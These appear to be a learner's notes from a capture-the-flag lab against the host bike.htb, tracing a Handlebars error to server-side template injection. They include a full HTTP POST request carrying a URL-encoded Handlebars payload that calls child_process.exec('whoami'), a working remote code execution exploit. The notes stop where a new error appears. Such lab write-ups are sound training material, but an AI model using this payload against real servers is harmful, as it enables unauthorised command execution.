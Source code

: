 - This exposes a few backend links, but I can't get to any of them
- So `Error: You must pass a string or Handlebars AST to Handlebars.compile` is interesting since it looks like you can pass code directly to whatever handlebars is. Maybe I can pass some js?

- Too bad I know very little about javascript
- It looks like it might be a Server Side Template Injection (SSTI) via handlebars engine, as referenced here: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
- Just the examples I got from this site did not work
- I think I'm close

- Okay I used burp's "Decoder" tab to convert the payload I got from Hacktricks to url so:
- ![](pics/20230910193757.png)
- Nice that returns a different error:
  ```bash

  POST / HTTP/1.1
  Host: bike.htb
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://bike.htb/
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 1542
  Origin: http://bike.htb
  Connection: close
  Upgrade-Insecure-Requests: 1

  email=%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%77%68%6f%61%6d%69%27%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d

  ------

  ```